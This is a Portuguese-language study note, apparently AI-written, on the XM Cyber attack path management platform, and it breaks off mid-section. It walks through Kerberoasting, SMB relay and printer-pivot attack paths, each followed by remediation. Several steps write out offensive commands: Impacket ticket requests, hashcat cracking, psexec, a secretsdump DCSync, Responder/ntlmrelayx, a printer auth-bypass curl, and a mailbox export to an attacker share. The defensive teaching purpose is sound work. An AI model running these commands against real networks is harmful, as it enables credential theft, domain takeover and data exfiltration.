


### Resumo

#### XM Cyber (Simulação de Ataque - BAS)

**O que é:** XM Cyber é uma ferramenta de **Gerenciamento de Caminhos de Ataque** (Attack Path Management). Ela simula continuamente como um hacker poderia se mover dentro da sua rede. Ela não olha apenas uma falha isolada, mas sim a _combinação_ de falhas que leva ao "tesouro" (dados críticos).

**A Analogia:** O Tenable diz que a janela está aberta. O XM Cyber é como um **GPS para ladrões (Waze)**. Ele diz: "Se eu entrar por essa janela aberta (falha 1), eu consigo pegar a chave do carro que está na mesa (falha 2), e com o carro eu derrubo o portão dos fundos (falha 3) e roubo o cofre". Ele mostra a _rota_ do desastre.

**Como funciona no DevSecOps:** Ele ajuda a priorizar. Às vezes você tem 1.000 falhas para corrigir. O XM Cyber diz: "Corrija a falha A primeiro, porque ela é a ponte que permite chegar no servidor do Banco de Dados".

**Exemplo Prático:** Você tem uma impressora desatualizada na rede. Parece inofensivo. O XM Cyber mostra que, ao hackear a impressora, o invasor consegue roubar uma credencial salva na memória dela, e com essa credencial, ele acessa o servidor do CEO. Ele desenha esse caminho visualmente para você.

---
Vou criar uma documentação completa e avançada sobre XM Cyber no mesmo nível de profundidade dos documentos anteriores.


# XM Cyber - Breach and Attack Simulation (BAS)

**Tags:** #bas #attack-path-management #breach-simulation #lateral-movement #xm-cyber #continuous-exposure #purple-team
**Relacionado:** [[Tenable]], [[Active-Directory]], [[Network-Security]], [[MITRE-ATT&CK]], [[Privilege-Escalation]]

---

## 📋 Índice

1. [Conceitos Fundamentais](#conceitos-fundamentais-xm-cyber)
2. [Análise Prática de Attack Paths](#análise-prática-de-attack-paths)
3. [Setup e Configuração](#setup-e-configuração)
4. [Workflow de Remediação](#workflow-de-remediação)
5. [Melhores Práticas](#melhores-práticas)

---

## 🎯 Conceitos Fundamentais XM Cyber

### O que é XM Cyber?

**XM Cyber** é uma plataforma de **BAS** (Breach and Attack Simulation) e **APM** (Attack Path Management) que realiza **simulações contínuas de ataques** em ambientes corporativos para identificar:

- 🎯 **Critical Assets** - Crown Jewels da organização (AD, DBs, File Servers)
- 🛣️ **Attack Paths** - Sequências de exploits que levam aos ativos críticos
- 🔗 **Choke Points** - Pontos únicos de falha que, se corrigidos, bloqueiam múltiplos paths
- ⚡ **Lateral Movement** - Técnicas de movimentação lateral entre hosts
- 🔑 **Credential Exposure** - Credenciais armazenadas em memória, disco, registry

**Diferença fundamental:**

```yaml
Tenable (Vulnerability Scanner):
  Pergunta: "Quais vulnerabilidades existem?"
  Resposta: "Servidor X tem CVE-2021-34527 (PrintNightmare)"
  
XM Cyber (Attack Path Simulator):
  Pergunta: "Como um atacante chegaria ao meu Database Server?"
  Resposta: |
    Path 1: Phishing → Workstation → SMB Relay → 
            Domain Admin Token → Database Server
    Path 2: VPN → IoT Device → Lateral Movement → 
            Service Account → Database Server
````

---

### BAS vs Pen Testing vs Red Team

|Aspecto|Pen Test|Red Team|BAS (XM Cyber)|
|---|---|---|---|
|**Frequência**|Anual/Semestral|Trimestral|**Contínuo (24/7)**|
|**Escopo**|Definido previamente|Objetivos específicos|**Toda a rede**|
|**Metodologia**|Manual + Ferramentas|Manual + Social Eng|**Automatizado**|
|**Custo**|$20k-$100k|$50k-$300k|**$50k-$200k/ano**|
|**Objetivo**|Encontrar falhas|Testar defesas|**Priorizar remediação**|
|**Profundidade**|Alta (exploits reais)|Muito alta|Média (safe exploits)|
|**Disrupção**|Baixa (ambientes teste)|Média-Alta|**Nenhuma (passivo)**|
|**Reporting**|Final do engagement|Final da campanha|**Real-time dashboard**|

> **💡 Valor do XM Cyber:** Enquanto Pen Test é uma "foto" pontual, XM Cyber é um "vídeo contínuo" da superfície de ataque.

---

### Attack Path Management (APM)

**Definição:** Disciplina de segurança que mapeia **cadeias de exploits** que um atacante usaria para comprometer ativos críticos.

**Anatomia de um Attack Path:**



**Componentes de um Attack Path:**

```yaml
1. Entry Point (Vetor Inicial):
   - Phishing (email malicioso)
   - VPN vulnerável
   - Exposed RDP/SSH
   - Supply chain (software comprometido)

2. Initial Foothold (Compromisso Inicial):
   - User workstation
   - IoT device (impressora, câmera)
   - Cloud VM

3. Lateral Movement Techniques:
   - Pass-the-Hash (PtH)
   - Pass-the-Ticket (PtT)
   - SMB Relay
   - RDP/SSH hopping
   - WMI/PowerShell remoting

4. Privilege Escalation:
   - Kerberoasting
   - Token impersonation
   - Unquoted service paths
   - DLL hijacking
   - Credential harvesting (SAM, LSA Secrets)

5. Critical Asset Access:
   - Domain Controller
   - Database Server (SQL, Oracle, MongoDB)
   - File Server (shares com dados sensíveis)
   - Backup Server
   - Payment Gateway
```

---

### Métricas de Risco do XM Cyber

#### 🎯 **Critical Asset Score (0-100)**

**Definição:** Pontuação que representa a **facilidade** de comprometer um ativo crítico.

**Fórmula conceitual:**

```
Critical Asset Score = f(
  Número de Attack Paths,
  Complexidade dos Paths (steps),
  Exploitabilidade dos exploits,
  Exposição de credenciais
)

Escala:
  0-25   = Muito Difícil (> 10 steps, exploits complexos)
  26-50  = Difícil (7-10 steps)
  51-75  = Moderado (4-6 steps)
  76-100 = Crítico (1-3 steps, trivial)
```

**Exemplo:**

```yaml
Asset: PROD-SQL-01 (SQL Server - Customer Database)
Critical Asset Score: 87/100 (CRITICAL)

Attack Paths: 23 paths identified

Shortest Path (3 steps):
  1. Compromised User Workstation (john.doe-PC)
     ↓ Credential in memory: DOMAIN\sql_service (plaintext)
  2. Lateral Movement via SMB
     ↓ Pass-the-Hash attack
  3. SQL Server compromised
     ↓ sql_service has sysadmin role

Complexity: TRIVIAL
Exploitability: HIGH (no exploits needed, just credential theft)
```

---

#### 🔗 **Choke Point Value**

**Definição:** Entidade (host, credencial, vulnerabilidade) que, **se removida**, bloqueia **múltiplos Attack Paths**.

**Identificação:**

```
Choke Point = Entity presente em N% dos paths

High-Value Choke Point:
  - Presente em > 50% dos paths
  - Bloqueio impacta 10+ Critical Assets
  
Exemplo:
  Entity: DOMAIN\backup_admin (Service Account)
  Exposure: Stored in 47 workstations (plaintext in registry)
  Impact: Used in 156 attack paths (67% of all paths)
  
  Remediation: Rotate password + Remove from local storage
  Result: Blocks 156 paths, reduces overall risk by 45%
```

**Visualização:**

```
┌──────────────────────────────────────────────────────┐
│ Top Choke Points (Remediation Priority)             │
├──────────────────────────────────────────────────────┤
│ 1. backup_admin credential                          │
│    ├─ Present in: 156 paths (67%)                   │
│    ├─ Assets at risk: 23 Critical Assets            │
│    └─ Effort: LOW (password rotation)               │
│                                                      │
│ 2. SMB Signing Disabled (subnet 10.0.50.0/24)       │
│    ├─ Present in: 89 paths (38%)                    │
│    ├─ Assets at risk: 12 Critical Assets            │
│    └─ Effort: MEDIUM (GPO deployment)               │
│                                                      │
│ 3. PrintNightmare (CVE-2021-34527) - DC01           │
│    ├─ Present in: 67 paths (29%)                    │
│    ├─ Assets at risk: Domain Controller             │
│    └─ Effort: HIGH (requires reboot)                │
└──────────────────────────────────────────────────────┘
```

---

#### 📊 **Risk Trending**

**Definição:** Evolução temporal do risco de comprometimento.

```yaml
Metrics Tracked:
  - Total Attack Paths (count)
  - Average Path Complexity (steps)
  - Critical Assets at Risk (count)
  - High-Value Choke Points (count)
  - Mean Time to Compromise (MTTC)

Trending Report (Last 30 days):
  Week 1: 234 paths → 18 Critical Assets → MTTC: 4.2 days
  Week 2: 189 paths → 14 Critical Assets → MTTC: 6.1 days ↑
  Week 3: 201 paths → 15 Critical Assets → MTTC: 5.8 days
  Week 4: 156 paths → 12 Critical Assets → MTTC: 7.3 days ↑
  
  Trend: IMPROVING ✓ (33% reduction in paths)
```

---

### Técnicas de Simulação (MITRE ATT&CK)

**XM Cyber** mapeia suas descobertas para o framework **MITRE ATT&CK**, permitindo correlação com TTPs (Tactics, Techniques, Procedures):

```yaml
Attack Path Techniques Detected:

Initial Access:
  - T1078: Valid Accounts (compromised credentials)
  - T1133: External Remote Services (VPN)

Execution:
  - T1059.001: PowerShell
  - T1047: Windows Management Instrumentation

Persistence:
  - T1136: Create Account
  - T1053: Scheduled Task/Job

Privilege Escalation:
  - T1558.003: Kerberoasting
  - T1134: Access Token Manipulation
  - T1068: Exploitation for Privilege Escalation

Credential Access:
  - T1003.001: LSASS Memory (Mimikatz)
  - T1003.002: Security Account Manager (SAM)
  - T1552.001: Credentials in Files

Lateral Movement:
  - T1550.002: Pass the Hash
  - T1021.002: SMB/Windows Admin Shares
  - T1021.001: Remote Desktop Protocol

Discovery:
  - T1018: Remote System Discovery
  - T1069: Permission Groups Discovery
  - T1083: File and Directory Discovery
```

**Dashboard MITRE ATT&CK:**

```
┌─────────────────────────────────────────────────────────┐
│ Attack Techniques Coverage                              │
├─────────────────────────────────────────────────────────┤
│ Credential Access: ████████████████░░ 82% (9/11)       │
│ Lateral Movement:  ███████████████░░░ 71% (5/7)        │
│ Privilege Escalation: ██████████░░░░░ 55% (6/11)       │
│ Persistence:       ████████░░░░░░░░░ 44% (4/9)         │
│ Initial Access:    ███████░░░░░░░░░░ 38% (3/8)         │
└─────────────────────────────────────────────────────────┘
```

---

## 🔬 Análise Prática de Attack Paths

### A) Kerberoasting Attack Path

#### 📌 Descrição do Cenário

**Attack Path:** Compromisso do Domain Controller via Kerberoasting

**Crown Jewel:** Domain Controller (DC01.company.local)

**Complexidade:** 5 steps (Moderate)

**Risk Score:** 78/100 (HIGH)

---

#### 🛣️ Attack Path Detalhado

**Visualização do Caminho:**

```
┌─────────────────────────────────────────────────────────────┐
│ ATTACK PATH #1: Kerberoasting to Domain Admin              │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│ [ENTRY]                                                     │
│ Phishing Email → john.doe@company.com                      │
│    ↓                                                        │
│ [STEP 1] Initial Compromise                                │
│ WORKSTATION-15 (10.0.10.45)                                │
│    ↓ Credential: DOMAIN\john.doe                           │
│    ↓                                                        │
│ [STEP 2] Credential Discovery                              │
│ Found: DOMAIN\svc_backup in LSASS memory                   │
│    ↓ Technique: LSASS dump (Mimikatz)                      │
│    ↓                                                        │
│ [STEP 3] Kerberoasting                                     │
│ Request TGS for: DOMAIN\svc_mssql (SPN: MSSQLSvc/sql01)    │
│    ↓ Technique: GetUserSPNs.py (Impacket)                  │
│    ↓ Crack offline: Hashcat (2 hours)                      │
│    ↓ Password: Summer2023!                                 │
│    ↓                                                        │
│ [STEP 4] Lateral Movement                                  │
│ SQL-SERVER-01 (10.0.20.10)                                 │
│    ↓ Credential: DOMAIN\svc_mssql (Domain Admin)           │
│    ↓                                                        │
│ [STEP 5] Domain Compromise                                 │
│ DC01.company.local (10.0.1.5)                              │
│    ↓ Technique: DCSync (Mimikatz)                          │
│    ↓ Result: KRBTGT hash extracted                         │
│    ↓                                                        │
│ [IMPACT] Full Domain Compromise                            │
│ - All credentials exposed                                   │
│ - Golden Ticket possible                                    │
│ - Persistence established                                   │
└─────────────────────────────────────────────────────────────┘
```

---

#### 🧪 Técnicas Utilizadas (Passo a Passo)

**STEP 1: Initial Compromise**

```powershell
# Atacante enviou phishing com macro maliciosa
# Vítima: john.doe@company.com
# Payload: Cobalt Strike Beacon

# XM Cyber detecta:
Detection:
  - User: DOMAIN\john.doe
  - Host: WORKSTATION-15 (10.0.10.45)
  - Permissions: Local User (non-admin)
  - OS: Windows 10 21H2
  
Exploitation:
  - None required (phishing)
  - User executed malicious file
```

**STEP 2: Credential Harvesting (LSASS)**

```powershell
# Atacante executa Mimikatz para dump de LSASS
# XM Cyber simula (sem executar malware real):

# Simulação:
Check: LSASS process memory accessible
Result: YES (no credential guard enabled)

# Credenciais encontradas:
Credentials in Memory:
  1. DOMAIN\john.doe (Logon Session)
  2. DOMAIN\svc_backup (Cached - Why?)
     ├─ Service Account
     ├─ Used for: Backup jobs
     └─ Logged in: 2024-02-08 03:00 (scheduled task)
  
  3. Local\Administrator (NTLM Hash)
```

> **🚩 Finding:** Service account `svc_backup` tem login interativo em workstation (má prática!)

**STEP 3: Kerberoasting**

```bash
# Atacante descobre SPNs com conta de domínio
# XM Cyber simula:

# Enumeration:
$ ldapsearch -x -h dc01.company.local -b "dc=company,dc=local" \
  "servicePrincipalName=*" servicePrincipalName

# Resultado:
servicePrincipalName: MSSQLSvc/sql01.company.local:1433
  └─ Account: DOMAIN\svc_mssql
  └─ User Principal Name: svc_mssql@company.local

# Request TGS ticket
$ GetUserSPNs.py -request -dc-ip 10.0.1.5 company.local/john.doe

[*] Getting TGS for svc_mssql
$krb5tgs$23$*svc_mssql$company.local$MSSQLSvc/sql01*$a3f7c8e9d2b1...

# Offline cracking simulation
$ hashcat -m 13100 ticket.txt rockyou.txt

# Result:
$krb5tgs$...:Summer2023!

# XM Cyber detecta:
Detection:
  - Account: svc_mssql has weak password
  - Crackable in: 2 hours (GPU)
  - Group Membership: Domain Admins (!!)
```

> **🚨 CRITICAL:** Service account com SPN + senha fraca + Domain Admin = Disaster!

**STEP 4: Lateral Movement (Pass-the-Credential)**

```powershell
# Atacante usa credencial crackeada
# XM Cyber valida acesso:

# Test SMB access
$ smbclient -U "DOMAIN\svc_mssql%Summer2023!" \\SQL-SERVER-01\C$

# Result: Success
# Permissions: Local Administrator (Domain Admin group)

# Establish session
$ impacket-psexec DOMAIN/svc_mssql:Summer2023!@10.0.20.10

[*] Requesting shares on 10.0.20.10.....
[*] Found writable share ADMIN$
[*] Service started
[!] Press help for extra shell commands

C:\Windows\system32>whoami
company\svc_mssql

C:\Windows\system32>net localgroup administrators
Alias name     administrators
Members
---------------
Administrator
COMPANY\Domain Admins  ← svc_mssql is member
```

**STEP 5: Domain Controller Compromise**

```powershell
# Atacante executa DCSync (Mimikatz)
# XM Cyber valida permissões:

# Check replication permissions
$ python3 secretsdump.py -just-dc DOMAIN/svc_mssql:Summer2023!@dc01.company.local

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a3f7c8e9d2b1c4a5b6f8e7d9c1a2b3d4:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b2c3d4e5f6a7b8c9d1e2f3a4b5c6d7e8:::
john.doe:1104:aad3b435b51404eeaad3b435b51404ee:c4d5e6f7a8b9c1d2e3f4a5b6c7d8e9f1:::
svc_mssql:1105:aad3b435b51404eeaad3b435b51404ee:d5e6f7a8b9c1d2e3f4a5b6c7d8e9f1a2:::
svc_backup:1106:aad3b435b51404eeaad3b435b51404ee:e6f7a8b9c1d2e3f4a5b6c7d8e9f1a2b3:::

# Golden Ticket creation possible
# KRBTGT hash = Full domain persistence
```

---

#### 📤 XM Cyber Report Output

**Attack Path Summary:**

```yaml
┌────────────────────────────────────────────────────────────┐
│ ATTACK PATH REPORT                                         │
├────────────────────────────────────────────────────────────┤
│ Path ID: AP-2024-00234                                     │
│ Detected: 2024-02-10 08:34:22                              │
│ Risk Score: 78/100 (HIGH)                                  │
│                                                            │
│ Critical Asset:                                            │
│   DC01.company.local (Domain Controller)                   │
│   ├─ Impact: TOTAL DOMAIN COMPROMISE                       │
│   ├─ Assets at Risk: 1,247 hosts                          │
│   └─ Data Exposure: ALL corporate data                     │
│                                                            │
│ Attack Chain (5 steps):                                    │
│   Entry Point: Phishing (john.doe@company.com)            │
│   ├─ 1. Initial Access: WORKSTATION-15                    │
│   ├─ 2. Credential Theft: LSASS dump (svc_backup)         │
│   ├─ 3. Kerberoasting: svc_mssql (cracked in 2h)          │
│   ├─ 4. Lateral Movement: SQL-SERVER-01                   │
│   └─ 5. Domain Compromise: DC01 (DCSync attack)           │
│                                                            │
│ MITRE ATT&CK Mapping:                                      │
│   T1078.002 - Valid Accounts: Domain Accounts             │
│   T1003.001 - OS Credential Dumping: LSASS Memory         │
│   T1558.003 - Kerberoasting                               │
│   T1021.002 - Remote Services: SMB/Windows Admin Shares   │
│   T1003.006 - DCSync                                       │
│                                                            │
│ Exploitability: HIGH                                       │
│   - No CVEs required                                       │
│   - Only credential theft + weak password                  │
│   - Common attacker TTP                                    │
└────────────────────────────────────────────────────────────┘
```

**Choke Points Identified:**

```yaml
Choke Point #1: svc_mssql account
  Type: Service Account
  Issue: Weak password + SPN + Domain Admin
  Paths Blocked: 67 paths (29% of total)
  Remediation:
    1. Remove from Domain Admins
    2. Rotate to complex password (25+ chars)
    3. Implement Managed Service Account (gMSA)
    4. Enable Kerberos AES encryption
  Effort: LOW
  Impact: HIGH

Choke Point #2: LSASS credential caching
  Type: Configuration Issue
  Issue: No Credential Guard enabled
  Paths Blocked: 156 paths (67% of total)
  Remediation:
    1. Enable Windows Defender Credential Guard
    2. Deploy via GPO to all workstations
    3. Requires UEFI + Secure Boot
  Effort: MEDIUM
  Impact: VERY HIGH

Choke Point #3: Service account interactive logon
  Type: Policy Violation
  Issue: svc_backup logged into workstation
  Paths Blocked: 34 paths (15% of total)
  Remediation:
    1. Create GPO: Deny log on locally for service accounts
    2. Use scheduled tasks with "Run as" instead
  Effort: LOW
  Impact: MEDIUM
```

---

#### 🛠️ Remediação Prioritizada

**Timeline de Correção:**

```yaml
IMMEDIATE (0-7 days):
  Priority 1: Remove svc_mssql from Domain Admins
    $ Remove-ADGroupMember -Identity "Domain Admins" -Members svc_mssql
    Impact: Blocks 67 attack paths immediately
  
  Priority 2: Rotate svc_mssql password
    $ Set-ADAccountPassword -Identity svc_mssql -NewPassword (ConvertTo-SecureString "NEW_COMPLEX_PASSWORD_32_CHARS!@#$" -AsPlainText -Force)
    Impact: Invalidates Kerberoast tickets

SHORT-TERM (7-30 days):
  Priority 3: Deploy Credential Guard (GPO)
    Computer Configuration → Policies → Administrative Templates →
    System → Device Guard → Turn on Virtualization Based Security
    Impact: Prevents LSASS dumping on 450+ workstations
  
  Priority 4: Implement gMSA for svc_mssql
    $ New-ADServiceAccount -Name gMSA_MSSQL -DNSHostName sql01.company.local
    $ Set-ADServiceAccount -Identity gMSA_MSSQL -PrincipalsAllowedToRetrieveManagedPassword "SQL-SERVER-01$"
    Impact: Password auto-rotates every 30 days (120 chars)

LONG-TERM (30-90 days):
  Priority 5: Implement Tiered Admin Model
    Tier 0: Domain Admins (DC only)
    Tier 1: Server Admins (no workstation access)
    Tier 2: Workstation Admins (no server access)
    Impact: Prevents lateral movement between tiers
```

**Validation:**

```bash
# Re-run XM Cyber simulation após correções
Scan Date: 2024-02-17 (7 days after)

Results:
  - Attack Path AP-2024-00234: BLOCKED ✓
  - Kerberoasting attack: FAILED (gMSA implemented)
  - LSASS credential theft: MITIGATED (Credential Guard)
  - Total paths to DC01: 67 → 12 (82% reduction)
  - Risk Score: 78 → 34 (56% improvement)
```

---

### B) SMB Relay Attack Path

#### 📌 Descrição do Cenário

**Attack Path:** Relay de autenticação SMB para comprometer File Server

**Crown Jewel:** FILE-SERVER-01 (\fs01.company.local\Finance$)

**Complexidade:** 3 steps (Simple)

**Risk Score:** 92/100 (CRITICAL)

---

#### 🛣️ Attack Path Detalhado

```
┌────────────────────────────────────────────────────────────┐
│ ATTACK PATH #2: SMB Relay to File Server                  │
├────────────────────────────────────────────────────────────┤
│                                                            │
│ [ENTRY]                                                    │
│ Man-in-the-Middle (ARP Spoofing)                          │
│    ↓ Attacker: 10.0.30.100 (rogue device)                 │
│    ↓                                                       │
│ [STEP 1] Network Positioning                              │
│ Subnet: 10.0.30.0/24 (Finance Department)                 │
│    ↓ Issue: No 802.1X port security                       │
│    ↓                                                       │
│ [STEP 2] SMB Relay Attack                                 │
│ Intercept: NTLM authentication from any user              │
│    ↓ Relay to: FILE-SERVER-01 (10.0.30.5)                 │
│    ↓ Technique: Responder + ntlmrelayx                    │
│    ↓ Vulnerability: SMB Signing not required              │
│    ↓                                                       │
│ [STEP 3] File Server Compromise                           │
│ FILE-SERVER-01 (10.0.30.5)                                │
│    ↓ Access: As relayed user (finance_user)               │
│    ↓ Shares: \\fs01\Finance$ (READ/WRITE)                 │
│    ↓ Data: Tax documents, payroll, bank statements        │
│    ↓                                                       │
│ [IMPACT] Data Exfiltration                                │
│ - 450GB of financial data exposed                          │
│ - PII of 12,000+ employees                                 │
│ - Compliance violation (SOX, GDPR)                         │
└────────────────────────────────────────────────────────────┘
```

---

#### 🧪 Técnicas Utilizadas

**STEP 1: Network Access (Rogue Device)**

```bash
# Atacante conecta dispositivo na rede física
# XM Cyber simula:

# Check network segmentation
Detection:
  - Subnet: 10.0.30.0/24 (Finance VLAN)
  - NAC: Not implemented
  - 802.1X: Disabled
  - DHCP: Open (any device gets IP)

Result: Attacker obtains IP 10.0.30.100
```

**STEP 2: SMB Relay Setup**

```bash
# Atacante configura Responder + ntlmrelayx
# XM Cyber valida vulnerabilidade:

# Check SMB signing requirement
$ nmap --script smb-security-mode -p445 10.0.30.5

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   message_signing: disabled (dangerous, but default)  ← VULNERABLE!

# Setup relay (simulation)
$ responder -I eth0 -wrf  # Poison LLMNR/NBT-NS
$ ntlmrelayx.py -t 10.0.30.5 -smb2support

[*] Servers started, waiting for connections...
[*] SMBD: Received connection from 10.0.30.45
[*] Authenticating against smb://10.0.30.5 as COMPANY\finance_user SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 10.0.30.5
```

**STEP 3: Data Access Validation**

```powershell
# XM Cyber valida acesso aos shares

# Enumerate shares
$ smbclient -L //10.0.30.5 -U "COMPANY\finance_user"

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Finance$        Disk      Financial Documents  ← TARGET
IPC$            IPC       Remote IPC

# Access Finance share
$ smbclient //10.0.30.5/Finance$ -U "COMPANY\finance_user"

smb: \> ls
  2024_Payroll.xlsx       A   1.2MB  Fri Feb  2 14:32:18 2024
  Tax_Documents           D   0      Mon Jan 15 09:12:00 2024
  Bank_Statements         D   0      Wed Jan 10 11:45:30 2024
  Employee_SSN.csv        A   8.4MB  Thu Jan 25 16:20:45 2024  ← PII!

# Data exposure confirmed
Total Data: 450GB
Sensitive Files: 12,847 documents
Compliance Impact: SOX, GDPR, PCI-DSS
```

---

#### 📤 XM Cyber Report

```yaml
┌────────────────────────────────────────────────────────────┐
│ CRITICAL ATTACK PATH - IMMEDIATE ACTION REQUIRED           │
├────────────────────────────────────────────────────────────┤
│ Path ID: AP-2024-00189                                     │
│ Risk Score: 92/100 (CRITICAL)                              │
│ Complexity: TRIVIAL (3 steps, no exploits)                 │
│                                                            │
│ Crown Jewel: FILE-SERVER-01                                │
│   ├─ Data Classification: HIGHLY CONFIDENTIAL              │
│   ├─ Data Volume: 450GB                                    │
│   ├─ Records: 12,000+ employee PII                         │
│   └─ Compliance: SOX, GDPR, PCI-DSS                        │
│                                                            │
│ Vulnerability: SMB Signing Not Enforced                    │
│   - Subnet: 10.0.30.0/24 (Finance Department)              │
│   - Affected Hosts: 23 servers                             │
│   - Attack Vector: SMB Relay (NTLM)                        │
│   - Exploitability: TRIVIAL (tools freely available)       │
│                                                            │
│ MITRE ATT&CK:                                              │
│   T1557.001 - Man-in-the-Middle: LLMNR/NBT-NS Poisoning   │
│   T1557.002 - ARP Cache Poisoning                          │
│   T1187 - Forced Authentication                            │
│   T1021.002 - SMB/Windows Admin Shares                     │
│                                                            │
│ Business Impact:                                           │
│   - Financial Loss: Potential GDPR fine (€20M or 4% revenue)│
│   - Reputational Damage: Data breach disclosure required   │
│   - Operational: Forensics, notification, credit monitoring│
└────────────────────────────────────────────────────────────┘
```

**Remediation:**

```yaml
CRITICAL (0-24 hours):
  1. Enable SMB Signing (GPO - IMMEDIATE)
     Path: Computer Configuration → Policies → Windows Settings →
           Security Settings → Local Policies → Security Options
     
     Settings:
       ├─ Microsoft network client: Digitally sign communications (always)
       │  Value: Enabled
       └─ Microsoft network server: Digitally sign communications (required)
          Value: Enabled
     
     Impact: Blocks ALL SMB relay attacks
     Downside: 10-15% performance overhead (acceptable for security)
  
  2. Deploy to Finance subnet (emergency GPO)
     $ gpupdate /force /target:computer
     
  3. Validate enforcement
     $ nmap --script smb-security-mode -p445 10.0.30.5
     Result: message_signing: required ✓

HIGH (7 days):
  4. Implement 802.1X (Network Access Control)
     - Authenticate devices before network access
     - Prevents rogue device connection
  
  5. Deploy DHCP Snooping
     - Prevents rogue DHCP servers
     - Blocks ARP spoofing at switch level
  
  6. Enable SMB Encryption (SMBv3)
     $ Set-SmbServerConfiguration -EncryptData $true

MEDIUM (30 days):
  7. Segment Finance network (separate VLAN)
  8. Deploy EDR (detect LLMNR poisoning)
  9. Disable LLMNR/NBT-NS (GPO)
```

**Re-scan Results:**

```
Post-Remediation (2024-02-11):
  - SMB Signing: Enforced ✓
  - Attack Path AP-2024-00189: BLOCKED ✓
  - SMB Relay: FAILED (signing required)
  - Risk Score: 92 → 18 (80% reduction)
```

---

### C) IoT Device Pivot Attack Path

#### 📌 Descrição do Cenário

**Attack Path:** Compromisso via impressora IoT obsoleta

**Crown Jewel:** EMAIL-SERVER-01 (Exchange Server)

**Complexidade:** 7 steps (Complex)

**Risk Score:** 61/100 (MEDIUM-HIGH)

---

#### 🛣️ Attack Path Detalhado

```
┌──────────────────────────────────────────────────────────────┐
│ ATTACK PATH #3: IoT Device as Pivot Point                   │
├──────────────────────────────────────────────────────────────┤
│                                                              │
│ [ENTRY] Internet Scan (Shodan)                              │
│    ↓ Exposed: Printer Web Interface (port 80/443)           │
│    ↓                                                         │
│ [STEP 1] IoT Device Compromise                              │
│ HP LaserJet 4250n (10.0.40.50)                              │
│    ↓ Firmware: 2015 (CVE-2017-2741 - Auth Bypass)           │
│    ↓                                                         │
│ [STEP 2] Network Reconnaissance                             │
│ SNMP Walk (community: public)                               │
│    ↓ Discovered: Internal network map                       │
│    ↓ Credentials: LDAP bind account in memory               │
│    ↓                                                         │
│ [STEP 3] LDAP Credential Abuse                              │
│ LDAP: DOMAIN\printer_svc (plaintext: Pr1nt3r2015!)          │
│    ↓ Use: Enumerate AD users/groups                         │
│    ↓                                                         │
│ [STEP 4] Kerberos Pre-Auth Disabled User                    │
│ Found: DOMAIN\legacy_scanner (AS-REP Roasting)              │
│    ↓ Crack: Password123                                     │
│    ↓                                                         │
│ [STEP 5] Lateral Movement (SMB)                             │
│ WORKSTATION-78 (10.0.40.12)                                 │
│    ↓ Access: legacy_scanner has local admin                 │
│    ↓                                                         │
│ [STEP 6] Token Impersonation                                │
│ Found: DOMAIN\exchange_admin token in memory                │
│    ↓ Technique: Incognito (Meterpreter)                     │
│    ↓                                                         │
│ [STEP 7] Exchange Server Compromise                         │
│ EMAIL-SERVER-01 (10.0.20.25)                                │
│    ↓ Access: Full mailbox access (12,000 users)             │
│    ↓                                                         │
│ [IMPACT] Email Exfiltration + Phishing Platform             │
│ - Read all corporate emails                                  │
│ - Send phishing as any user (CEO fraud)                      │
│ - Harvest credentials from emails                            │
└──────────────────────────────────────────────────────────────┘
```

---

#### 🧪 Técnicas Detalhadas

**STEP 1: IoT Compromise (CVE-2017-2741)**

```bash
# Shodan discovery
$ shodan search "HP LaserJet port:443"

# Result:
10.0.40.50:443 (company.com)
  ├─ Device: HP LaserJet 4250n
  ├─ Firmware: 20150923 (OUTDATED)
  └─ CVE: CVE-2017-2741 (Authentication Bypass)

# Exploit
$ curl -X POST http://10.0.40.50/dev/save_restore.xml \
  -d 'username=admin&password=&action=restore'

[*] Authentication bypassed
[*] Web console access granted
```

**STEP 2: SNMP Credential Extraction**

```bash
# SNMP walk
$ snmpwalk -v2c -c public 10.0.40.50

# Discovered credentials (stored in printer memory):
iso.3.6.1.4.1.11.2.3.9.4.2.1.1.1.1 = STRING: "DOMAIN\printer_svc"
iso.3.6.1.4.1.11.2.3.9.4.2.1.1.1.2 = STRING: "Pr1nt3r2015!"  ← PLAINTEXT!

# Why printer has LDAP creds?
# Answer: For "Scan to Email" feature (LDAP lookup)
```

**STEP 7: Exchange Compromise**

```powershell
# With exchange_admin token
$ New-MailboxExportRequest -Mailbox CEO@company.com -FilePath \\attacker\share\ceo.pst

# Result: Full mailbox exported (5.2GB)

# Phishing capability
$ Send-MailMessage -From "ceo@company.com" -To "finance@company.com" \
  -Subject "URGENT: Wire Transfer" \
  -Body "Please transfer $500k to account..."
```

---

#### 📤 XM Cyber Insights

```yaml
Choke Point Analysis:

Choke Point #1: HP LaserJet 4250n (IoT Device)
  Issue: Outdated firmware (9 years old)
